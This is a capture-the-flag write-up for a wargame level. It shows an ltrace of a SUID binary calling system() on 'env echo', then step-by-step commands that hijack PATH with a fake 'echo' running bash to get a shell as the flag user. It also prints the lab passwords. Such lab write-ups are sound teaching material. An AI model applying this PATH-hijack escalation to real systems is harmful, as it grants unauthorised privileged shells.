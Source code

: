 # LEVEL 03

> [!TIP]
> user: `level03` <br>
> pass: `kooda2puivaav1idi4f57q8iq`

## STEP 01

In the home folder of the **level03**, the is a **level03** binary that have
SUID bit set, and belong to the **flag03**

Launching the binary with **ltrace**, give us a little more information

```bash
ltrace ./level03
#__libc_start_main(0x80484a4, 1, 0xbffffbe4, 0x8048510, 0x8048580 <unfinished ...>
#getegid()                                                  = 2003
#geteuid()                                                  = 2003
#setresgid(2003, 2003, 2003, 0xb7e5ee55, 0xb7fed280)        = 0
#setresuid(2003, 2003, 2003, 0xb7e5ee55, 0xb7fed280)        = 0
#system("/usr/bin/env echo Exploit me"
```

> [!NOTE]
> The security issue could be that the binary launch a system call with a
> relative path for the echo command

## STEP 02

Let's prepare our exploitation

1. First, create a dir in `/tmp` folder
   - `mkdir /tmp/pix && cd /tmp/pix`
1. Now create an **echo** file that will replace the echo command in the binary
    - `echo bash > /tmp/pix/echo && chmod +x /tmp/pix/echo`
1. Setup the **PATH** env variable to make the `/tmp/pix` folder prevent from
   all other
    - `export PATH=${PWD}:${PATH}`
1. From here, in the `/tmp/pix` folder, launch the `/home/user/level03/level03`
   file

TADA, you now have a shell as **flag03**

> [!IMPORTANT]
> the password for the next level is `qi0maab88jeaj46qoumi7maus`

